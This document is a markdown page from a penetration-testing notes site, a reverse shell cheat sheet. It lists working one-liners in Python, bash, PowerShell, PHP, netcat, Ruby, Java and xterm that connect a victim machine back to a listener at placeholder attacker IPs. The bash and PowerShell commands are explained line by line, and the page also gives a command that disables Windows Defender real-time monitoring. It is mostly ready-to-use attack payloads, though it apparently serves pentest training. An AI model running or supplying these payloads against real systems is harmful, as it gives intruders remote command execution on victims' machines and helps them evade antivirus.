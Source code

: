```yaml
---
title: Reverse Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - reverse shells
---
```


# Reverse shells

??? abstract "Resources to generate reverse shells"
    - [https://www.revshells.com/](https://www.revshells.com/)
    - [Netcat for windows 32/64 bit](https://github.com/int0x33/nc.exe) 
    - [Pentesmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    - [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 


Victim's machine Initiates a connection back to a "listener" on our attacking machine box. 

For this attack to work, first  we set the listener in the attacking machine using netcat.

```shell-session
nc -lnvp 1234
```

After that, on the victim's machine, you can launch the reverse shell connection. 

A Reverse Shell is handy when we want to get a quick, reliable connection to our compromised host. However, a Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.


## Reverse shell connections

### python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

# rm /tmp/f;
# Removes the /tmp/f file if it exists, -f causes rm to ignore nonexistent files. The semi-colon (;) is used to execute the command sequentially.

# mkfifo /tmp/f;
# Makes a FIFO named pipe file at the location specified. In this case, /tmp/f is the FIFO named pipe file, the semi-colon (;) is used to execute the command sequentially.

# cat /tmp/f |
# Concatenates the FIFO named pipe file /tmp/f, the pipe (|) connects the standard output of cat /tmp/f to the standard input of the command that comes after the pipe (|).

# /bin/sh -i 2>&1 |
# Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).

# nc $ip <port> >/tmp/f
# Uses Netcat to send a connection to our attack host $ip listening on port <port>. The output will be redirected (>) to /tmp/f, serving the Bash shell to our waiting Netcat listener when the reverse shell one-liner command is executed

```

### powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# same, but without assigning $client to the new object
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# powershell -nop -c 
# Executes powershell.exe with no profile (nop) and executes the command/script block (-c or -Command) contained in the quotes

# "$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,433);
# Sets/evaluates the variable $client equal to (=) the New-Object cmdlet, which creates an instance of the System.Net.Sockets.TCPClient .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses (10.10.14.158,443). The semi-colon (;) ensures the commands & code are executed sequentially.

# $stream = $client.GetStream();
# Sets/evaluates the variable $stream equal to (=) the $client variable and the .NET framework method called GetStream that facilitates network communications. 

# [byte[]]$bytes = 0..65535|%{0}; 
# Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

# while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)

# Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. The parameters: buffer ($bytes), offset (0), and count ($bytes.Length) are defined inside the parentheses of the method.


# {;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
# Sets/evaluates the variable $data equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the GetString method to encode the byte stream ($bytes) into ASCII. In short, what we type won't just be transmitted and received as empty bits but will be encoded as ASCII text. 

# $sendback = (iex $data 2>&1 | Out-String ); 
# Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard input (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. 

# $sendback2 = $sendback + 'PS ' + (pwd).path + '> '; 
# Sets/evaluates the variable $sendback2 equal to (=) the $sendback variable plus (+) the string PS ('PS') plus + path to the working directory ((pwd).path) plus (+) the string '> '. This will result in the shell prompt being PS C:\workingdirectoryofmachine >. 

# $sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}
# Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.

```


```powershell-session
 Set-MpPreference -DisableRealtimeMonitoring $true
```
### php

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


### netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### java

```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
  

### xterm

```bash
xterm -display 10.0.0.1:1
```

